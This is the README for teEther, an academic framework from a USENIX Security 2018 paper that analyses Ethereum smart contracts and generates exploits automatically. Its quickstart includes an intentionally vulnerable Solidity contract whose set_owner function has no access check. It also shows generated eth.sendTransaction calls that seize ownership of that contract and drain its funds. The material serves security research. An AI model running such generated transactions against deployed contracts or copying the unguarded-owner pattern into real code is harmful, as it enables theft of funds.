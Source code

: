 # teEther - Analysis and automatic exploitation framework for Ethereum smart contracts

teEther is an analysis tool for Ethereum smart contracts.
It can
* [disassemble EVM bytecode](./teether/cfg/disassembly.py#L13)
* [perform backward slicing](./teether/slicing.py#L123)
* [execute EVM bytecode](./teether/evm/evm.py#L31)
* [execute EVM bytecode **symbolically**](./teether/evm/evm.py#L290)
* [plot nice CFGs](./bin/plot_cfg.py)
* [create exploits for vulnerable smart contracts](./bin/gen_exploit.py)

## Quickstart

1. Install `teEther`
```bash
pip3 install .
# python setup.py install
```

2. Write your vulnerable smart contract
```solidity
pragma solidity ^0.4.0;

contract Test{

    struct Transaction{
        address to;
        uint amount;
    }

    mapping (bytes32 => Transaction) transactions;

    address owner;
    
    function set_owner(address new_owner){
        owner = new_owner;
    }
    
    function new_transaction(address to, uint amount) returns (bytes32){
        bytes32 token = sha3(to, amount);
        Transaction storage t = transactions[token];
        t.to = to;
        t.amount += amount;
        return token;
    }
    
    function approve(bytes32 token){
        require(owner == msg.sender);
        Transaction storage t = transactions[token];
        t.to.transfer(t.amount);
        delete transactions[token];
    }
    
}
```

3. Compile your contract
```bash
$ solc --bin test.sol | tail -n1 > test.code
```

4. Extract the deployed contract code
```bash
$ python scripts/extract_contract_code.py test.code > test.contract.code
```

5. Generate an exploit
```bash
$ python scripts/gen_exploit.py test.contract.code 0x1234 0x1000 +1000

...
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x7cb97b2b0000000000000000000000000000000000000000000000000000000000001234", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0x0129ab2700000000000000000000000000000000000000000000000000000000000012340000000000000000000000000000000000000000000000016bc75e2d63100103", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
eth.sendTransaction({from:"0x0000000000000000000000000000000000001234", data:"0xa53a1adfce9e2ef9fe2568f35b22f98bb749862a13e0abd291c6ba4967016d629412829d", to:"0x4000000000000000000000000000000000000000", gasPrice:0})
```

## Academia

Our paper [**teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts**](https://publications.cispa.saarland/2612/1/main.pdf) was published at the [27th USENIX Security Symposium (Usenix Security 18)](https://www.usenix.org/conference/usenixsecurity18/presentation/krupp) ([slides](https://www.usenix.org/sites/default/files/conference/protected-files/security18_slides_krupp.pdf), [video](https://www.youtube.com/watch?v=mW4jQzPVP_A)).

```bibtex
@inproceedings{teEther2018,
          author = {Johannes Krupp and Christian Rossow},
       publisher = {USENIX Association},
       booktitle = {27th USENIX Security Symposium (USENIX Security 18)},
            year = {2018},
           title = {{teEther: Gnawing at Ethereum to Automatically Exploit Smart Contracts}},
             url = {https://publications.cispa.saarland/2612/},
}
```
